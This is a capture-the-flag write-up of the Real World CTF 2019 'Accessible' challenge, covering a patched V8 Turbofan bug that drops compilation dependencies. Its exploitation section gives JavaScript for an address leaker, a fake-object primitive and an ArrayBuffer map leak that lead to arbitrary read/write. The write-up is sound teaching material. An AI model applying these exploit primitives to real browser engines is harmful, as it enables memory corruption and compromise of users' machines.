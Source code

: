 ```yaml
---
layout: post
title:  "Real World CTF 2019 Accessible Write-up"
date:   2019-09-16 00:00:00 +0000
categories: jekyll update
---
```


## 0x00 Overview

In this challenge, a patch is applied to `ComputeDataFieldAccessInfo`, which removes some elements that should have been added to `unrecorded_dependencies`, which also makes `constness` to be always `kConst`. The problem is JIT code that depends on some specific map will not be deoptimized when it should be, and this further causes type confusion in JIT code. Then, we can regard a object pointer as an unboxed double, and vice versa, which gives leak and ability to fake object, so we can fake an `ArrayBuffer` to achieve arbitrary R&W.

## 0x01 Patch Analysis

### First Attempt

`ComputeDataFieldAccessInfo` is used by function `ComputePropertyAccessInfo`, which is used in Turbofan compiler. These are some of the components that call this function.

```
ComputePropertyAccessInfo used in:
	ReduceJSInstanceOf
	ReduceJSResolvePromise
	**ReducePropertyAccess**
		-> new NamedAccessFeedback
		-> NamedAccessFeedback::AsNamedAccess to ReduceNamedAccess
		-> BuildPropertyAccess
		-> BuildPropertyLoad/BuildPropertyStore
		-> reduced to LoadField/StoreField
		maybe CheckMaps will be eliminated wrongly?
	*ReduceJSStoreDataPropertyInLiteral*
	ProcessMapForNamedPropertyAccess
	ReduceRegExpPrototypeTest
```

One component that might be interesting `ReducePropertyAccess`, which uses the result from `ComputePropertyAccessInfo` to reduce a JavaScript property access node to more native operation node like `LoadField/StoreField`. If the result from `ComputePropertyAccessInfo`, which can come from `ComputeDataFieldAccessInfo`, can result in incorrect removal of `kCheckMaps`, we can possibly get type confusion. However, after some investigation, it turns out that this is not the correct way to solve the challenge (or at least I have not found any, since the relative processing is a bit complicated).

### Second Attempt

The pointer stored in `unrecorded_dependencies` is `CompilationDependency`, which is an abstract class.

```
unrecorded_dependencies.push_back
	-> FieldTypeDependency/FieldRepresentationDependency
		Install method: DependentCode::InstallDependency
-> PropertyAccessInfo::DataConstant
-> PropertyAccessInfo::unrecorded_dependencies_, returned
used in PropertyAccessInfo::RecordDependencies
-> CompilationDependencies::RecordDependency
-> CompilationDependencies::dependencies_.push_front
```

The patched class should have created `FieldTypeDependency` and `FieldRepresentationDependency` class instances, which are child classes of `CompilationDependency`. They both have an `Install` method that calls `DependentCode::InstallDependency`. Actually at this point, as the names suggest, I have already realized that some dependency is removed.

The `unrecorded_dependencies` is passed into `PropertyAccessInfo::DataConstant` to create `PropertyAccessInfo` class instance, which will finally be assigned to field `unrecorded_dependencies_`. By searching some cross references, I found this field is used in `PropertyAccessInfo::RecordDependencies`, and will be pushed into `dependencies_` field of `CompilationDependencies` class instance. Therefore, in another word, by removing elements in `unrecorded_dependencies`, elements in `dependencies_` field of`CompilationDependencies` class instance will also be removed. Therefore, some compilation dependency that should have existed has been removed.

## 0x02 Dependency

When the structure of JavaScript object does not match the generated JIT code, JIT code must be deoptimized to prevent type confusion. There are 2 ways that such deoptimization can occur (although there might be more): the first one is when provided map does not meet `kCheckMaps`, which suggests this is another object type, so JIT code bails out; the second one, *in my understanding*, is when structure represented by a map changes, so the JIT code that depends on this map should be marked as deoptimized and will be deoptimized in the next call.

For example, if we compile the following code in this way, and look at graph after `SimplifiedLowering`.

```javascript
const od1 = {pd1:1.1, pd2:1.1, pd3:1.1, pd4:1.1, x:1.1};
const o1 = {a:1};
o1.b = 1;
o1.c = od1;
function leaker(o)
{
	const x = o.a;
	return o.c.x;
}
for (var i = 0; i < 0x4000; i++) 
{
	leaker(o1);
}
```

![1568608381878](/images/1568608381878.png)

However, this graph seems to be a bit wrong, because the `CheckMap` that checks the map of `o.c` object does not present. How does Turbofan know `+56` field of `o.c` must be an unboxed double? The answer lies in *Compilation Dependency*. If we change `o1.c` to another type of object, although map of `o1` remains unchanged, this JIT code will be marked as deoptimized and will be deoptimized in next call, so type confusion never occurs. *In my understanding*, originally the map of `o1` not only represents structure of `o1`, but also represents structure of `o1.c`, so that Turbofan dares to remove the `CheckMaps` for `o1.c` since such information has already been contained in `CheckMaps` for `o1`; but after we change type of `o1.c`, the same map now can represents structure of `o1` only, so any JIT code that bases on original type of `o1.c` should all be marked as deoptimized.

This is where the vulnerability of this challenge comes, since the dependency is removed, JIT code is no longer marked as deoptimized after we change `o1.c` to something else, and type confusion will arise.

## 0x03 Exploitation

The leaker that leaks arbitrary object address is now clear, we just change `o1.c` to another object whose `+56` inline field is an object, so we can leak the address of that object

```javascript
o1.c={po1:{}, po2:{}, po3:{}, po4:{}, l:wmain};
wmainAddr = d2u(leaker(o1));
```

However, when I tried to use `writer`, it does not work,

```javascript
function writer(o, val)
{
	const x = o.a;
	o.c.x = val;
}
```

![1568612750885](/images/1568612750885.png)

It turns out that `StoreField[+56]` is never generated, but it is loaded and compared with given value, and JIT code will bail out if they are not equal. Such code is a bit weird, and *I think* this is the result of `kConst` patch that makes `constness` to be `kConst` always.

Therefore we cannot use this approach to rewrite `backingStore` to `ArrayBuffer` to arbitrary address. Another approach is to fake an object by letting JIT code regard a controllable unboxed double as an object pointer. Function is exactly same but provided input for JIT compilation is different.

```javascript
const od2 = {x2:{}};
const o2 = {a2:1};
o2.b2 = 1;
o2.c2 = od2;
// use different field name to prevent previous maps reusing
function faker(o, val)
{
	const x = o.a2;
	return o.c2.x2;
}
for (var i = 0; i < 0x4000; i++)
{
	faker(o2);
}
o2.c2 = {f:u2d(fakeObjAddr)}
// reassign c2 to an unboxed double object
fakeAb = faker(o2);
// will regard unboxed double as object pointer
```

In order to faking any object, we have to leak its map address, we can leak map address of `ArrayBuffer` in this way using an empty object:

```javascript
o = {}; // this is too far, no idea why
o = {}; // this is adjacent to ArrayBuffer
mapleaker = new ArrayBuffer(1);
o1.c=o; 
// so that o1.c.x stores map of mapleaker
abMapAddr = d2u(leaker(o1));
print(hex(abMapAddr))
```

This is also the reason why 4 paddings are there before field `x`, because we want offset of `x` to store exactly address of `ArrayBuffer` map.

After leaking map, exploitation is regular: just fake an `ArrayBuffer` object using a double array, and achieve arbitrary R&W.

The full exploit is [here](https://github.com/Mem2019/Mem2019.github.io/blob/master/codes/accessible.js).
